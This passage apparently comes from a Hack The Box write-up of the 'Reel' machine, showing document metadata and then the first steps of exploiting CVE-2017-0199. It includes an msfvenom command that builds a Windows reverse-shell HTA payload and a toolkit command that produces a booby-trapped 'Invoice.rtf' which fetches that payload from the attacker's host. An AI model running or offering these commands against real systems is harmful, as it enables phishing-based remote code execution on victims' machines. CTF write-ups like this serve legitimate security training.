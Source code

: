 ```bash
Modify Date                     : 2017:10:31 18:51:00Z
Template                        : Normal.dotm
Total Edit Time                 : 5 minutes
Pages                           : 2
Words                           : 299
Characters                      : 1709
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 14
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : 
Links Up To Date                : No
Characters With Spaces          : 2004
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```

Since we know from the readme.txt, they expecting an RTF format document that needs to be sent through the mail. So I searched for exploits and found this repo. This module creates a malicious RTF file that when opened in vulnerable versions of Microsoft Word will lead to code execution. 

> [https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

## Getting User Shell

First, I used `msfvenom` to generate an HTA file that will give me a reverse shell.

```bash
root@kali:~/htb/boxes/reel/CVE-2017-0199# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f hta-psh -o shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6592 bytes
Saved as: shell.hta
```

Next I will create the RTF file.

```bash
root@kali:~/CTF/HTB/Boxes/Reel/CVE-2017-0199# python cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.16/shell.hta -x 0
Generating normal RTF payload.

Generated Invoice.rtf successfully
```

- `-M gen` - generate a document
- `-w Invoice.rtf` - RTF File
- `-u` - URL of the HTA file
- `-x 0` - Disabled rtf obfuscation
